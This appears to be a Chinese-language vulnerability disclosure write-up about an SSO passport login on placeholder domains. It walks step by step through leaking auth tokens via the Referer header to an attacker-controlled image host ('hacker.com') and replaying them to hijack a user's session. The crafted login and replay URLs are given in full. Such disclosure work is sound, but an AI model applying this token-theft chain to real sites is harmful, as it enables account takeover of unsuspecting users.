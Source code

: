 
上面的文字内容偏多，可能读起来费劲，以下为图文并茂内容。

可被黑客劫持用户授权的站点：
http://*.AAA.com/
http://*.BBB.com/

#### 漏洞细节：
AAA.com支持通过 “通行证”登录旗下各个站点，登录口是
`https://passport.AAA.com/`

在我们要登录`http://subdomain.AAA.com/`时就可以看到该接口

![图片4.png](C:\Users\todaro\Desktop\kjkk\图片4.png)
##### 【1】前期准备
一个“通行证”账号
登录后在子域名论坛发了个帖子
`http://bbs.subdomain.AAA.com/thread-942592-1-1.html`
![图片5.png](C:\Users\todaro\Desktop\kjkk\图片5.png)
帖子嵌入了一个外链图片
![图片6.png](C:\Users\todaro\Desktop\kjkk\图片6.png)
当这个页面被请求时，浏览器就会对外请求该图片
`http://hacker.com/jpg/12345.jpg`

然后黑客服务器可以通过记录referer来得知是哪一个站点发起的请求，即referer的数据都可得。

##### 【2】
在已经登录`https://passport.AAA.com/`的情况下
(1)访问
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
简单介绍一下`continue`参数指向的是我上面发布的那个帖子，`location`的值是通过网站的函数编码过的`http://subdomain.AAA.com/`

访问后，授权的数据就会自动附带在链接中如下：
![图片7.png](C:\Users\todaro\Desktop\kjkk\图片7.png)
可以看到在请求这张对外的图片时，也把授权用的`auth`等参数的值以referer的方式向网站发起了请求，而我们只需要在服务器记录请求即可获取到改值。

获取到这些值后：
`auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f`

我们在浏览器的隐身窗口(以保证我们没有登录passport.AAA.com)中打开如下链接：
```
http://subdomain.AAA.com/SSOServerLogin?auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
```
即可登录对应账号在`subdomain.AAA.com`的用户中心
![图片8.png](C:\Users\todaro\Desktop\kjkk\图片8.png)
![图片9.png](C:\Users\todaro\Desktop\kjkk\图片9.png)
